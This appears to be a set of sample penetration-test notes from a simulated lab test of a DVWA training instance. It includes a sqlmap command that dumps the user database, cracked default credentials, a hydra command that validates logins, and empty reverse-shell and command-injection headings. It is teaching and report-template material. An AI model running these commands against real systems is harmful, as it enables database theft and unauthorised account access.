










# Introduction

This document contains some sample notes from a simulated test of a DVWA instance.  Follow the [[Sample instructions]] for a sample workflow of how to slice these notes up into the way you'd like them to appear in the report.

# Target - `dvwa.pwn.me` 172.16.0.9/24

Scope of test is limited to the single subdomain/virtual host `dvwa.pwn.me` on host `172.16.0.9/24`. 

## Enumeration




Accessing `http://dvwa.pwn.me` takes us via redirect to `/login.php`.



We can login with `admin:password`.


HTTPS is configured on the host, but the target site is not accessible through HTTPS.  

# Foothold - reverse shell
## Testing command injection


# Database - SQL injection vulnerability





## Database dump leads to other users


```bash
sqlmap -r dvwa.req --dump --batch
```
- `-r`: use the specified request file
- `--dump`: dump everything reachable
- `--batch`: assume default answers for `sqlmap` prompts; i.e. fully automatic

Using `sqlmap`, we were able to dump the entire DVWA user table, including cracked password hashes, shown below.

```
admin:password
gordonb:abc123
1337:charley
pablo:letmein
smithy:password
```

## Validating user creds by authenticating to webapp


```bash
hydra -C creds dvwa.pwn.me  http-post-form "/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed"
```

Using `hydra`, we validated the credentials dumped from the DVWA users table.


# Flags

## `user`


As the `www-data` user, discovered flag at `/home/user/.flag2.txt`.
Readable only by `user`